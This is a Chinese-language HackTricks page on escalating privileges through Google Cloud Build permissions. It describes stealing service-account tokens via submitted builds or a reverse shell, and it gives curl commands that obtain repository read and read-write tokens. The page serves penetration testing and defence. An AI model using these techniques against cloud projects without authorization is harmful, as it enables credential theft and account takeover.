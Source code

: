# GCP - Cloudbuild Privesc

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## cloudbuild

有关Cloud Build的更多信息，请查看：

{% content-ref url="../gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

拥有此权限，您可以**提交一个云构建**。cloudbuild机器的文件系统中**默认会有一个cloudbuild服务账号的令牌**：`<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`。但是，您可以在cloudbuild配置中**指定项目中的任何服务账号**。\
因此，您可以让机器将令牌外发到您的服务器，或者**在其中获取一个反向shell并获取令牌**（包含令牌的文件可能会更改）。

您可以在[**GitHub上找到原始的利用脚本**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py)（但我无法从中获取令牌）。因此，查看一个用于自动化[**创建、利用和清理漏洞环境的脚本在这里**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.sh)，以及一个用于在cloudbuild机器内获取反向shell并[**窃取令牌的Python脚本在这里**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.py)（在代码中您可以找到如何指定其他服务账号）**。**

要了解更详细的解释，请访问[https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)

### `cloudbuild.builds.update`

**潜在地**，拥有此权限您将能够**更新一个云构建并窃取服务账号令牌**，就像使用前一个权限执行的那样（但遗憾的是，在撰写本文时，我找不到任何调用该API的方法）。

待办事项

### `cloudbuild.repositories.accessReadToken`

拥有此权限的用户可以获取用于访问存储库的**读取访问令牌**：

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```

### `cloudbuild.repositories.accessReadWriteToken`

拥有此权限的用户可以获取用于访问存储库的**读写访问令牌**：

```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```

### `cloudbuild.connections.fetchLinkableRepositories`

拥有此权限，您可以**获取连接具有访问权限的存储库：**

{% code overflow="wrap" %}
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{% endcode %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
